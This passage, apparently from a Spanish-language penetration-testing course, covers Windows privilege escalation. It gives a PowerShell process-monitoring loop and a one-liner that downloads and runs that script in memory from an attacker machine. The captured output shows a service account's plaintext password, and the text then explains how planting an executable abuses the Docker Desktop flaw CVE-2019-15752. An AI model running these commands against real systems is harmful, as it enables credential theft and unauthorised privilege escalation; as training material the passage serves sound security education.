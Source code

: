   Interactuar con los usuarios

```shell-session
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

#### Ejecutar el script de monitor en el host de destino

Podemos alojar el script en nuestra máquina de ataque y ejecutarlo en el host de destino de la siguiente manera.

  Interactuar con los usuarios

```powershell-session
PS C:\htb> IEX (iwr 'http://10.10.10.205/procmon.ps1') 

InputObject                                           SideIndicator
-----------                                           -------------
@{CommandLine=C:\Windows\system32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}} =>      
@{CommandLine=“C:\Windows\system32\cmd.exe” }                          =>      
@{CommandLine=\??\C:\Windows\system32\conhost.exe 0x4}                      =>      
@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>       
@{CommandLine=“C:\Windows\system32\backgroundTaskHost.exe” -ServerName:CortanaUI.AppXy7vb4pc2... <=
```

Esto es exitoso y revela la contraseña para el`sqlsvc`Usuario de dominio, que posiblemente podríamos usar para obtener acceso al host SQL02 o potencialmente encontrar datos confidenciales, como las credenciales de la base de datos en el`backups`compartir.

---

## Servicios vulnerables

También podemos encontrar situaciones en las que aterrizamos en un host que ejecute una aplicación vulnerable que puede usarse para elevar los privilegios a través de la interacción del usuario.[CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e)es un gran ejemplo de esto. Esta fue una vulnerabilidad en Docker Desktop Community Edition antes del 2.1.0.1. Cuando comienza esta versión en particular de Docker, busca varios archivos diferentes, incluidos`docker-credential-wincred.exe`, `docker-credential-wincred.bat`, etc., que no existen con una instalación de Docker. El programa busca estos archivos en el`C:\PROGRAMDATA\DockerDesktop\version-bin\`. Este directorio fue mal configurado para permitir el acceso completo a la escritura al`BUILTIN\Users`Grupo, lo que significa que cualquier usuario autenticado en el sistema podría escribir un archivo en él (como un ejecutable malicioso).

Cualquier ejecutable colocado en ese directorio se ejecutaría cuando a) comience la aplicación Docker y b) cuando un usuario se autentica usando el comando`docker login`. Si bien es un poco más antiguo, no está fuera del ámbito de la posibilidad encontrar la estación de trabajo de un desarrollador que ejecuta esta versión de Docker Desktop, por lo que siempre es importante enumerar a fondo el software instalado. Si bien este defecto en particular no nos garantizaría un acceso elevado (ya que se basa en un reinicio del servicio o acción del usuario), podríamos plantar nuestro ejecutable durante una evaluación a largo plazo y verificar periódicamente si se ejecuta y nuestros privilegios están elevados.

---